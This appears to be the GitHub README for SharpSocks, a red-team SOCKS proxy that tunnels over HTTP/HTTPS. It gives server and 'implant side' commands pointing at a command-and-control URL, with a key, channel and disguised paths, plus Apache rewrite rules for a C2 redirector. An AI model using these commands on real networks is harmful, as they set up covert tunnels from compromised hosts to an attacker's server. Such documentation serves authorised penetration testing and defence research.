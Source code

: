 # SharpSocks 2017 Nettitude
Tunnellable HTTP/HTTPS socks4a proxy written in C# and deployable via PowerShell

Written by Rob Maslen @rbmaslen


# Usage Server 
SharpSocks -Server -IPAddress 192.168.1.10 -Uri https://www.c2url.com:443 -SocksPort 43334 


# Usage Client (Implant side)
SharpSocks -Client -Uri https://www.c2url.com:443 -Key PTDWISSNRCThqmpWEzXFZ1nSusz10u0qZ0n0UjH66rs= -Channel 7f404221-9f30-470b-b05d-e1a922be3ff6 -URLs "site/review/access","upload/data/images" -Beacon 2000


# Apache ReWrite Rule (c2 proxy)
Define SharpSocks 10.0.0.1

RewriteRule ^/site/review/access(.*) https://${SharpSocks}:443/site/review/access$1 [NC,P]

RewriteRule ^/upload/data/images(.*) https://${SharpSocks}:443/upload/data/images$1 [NC,P]

# License
FreeBSD 3
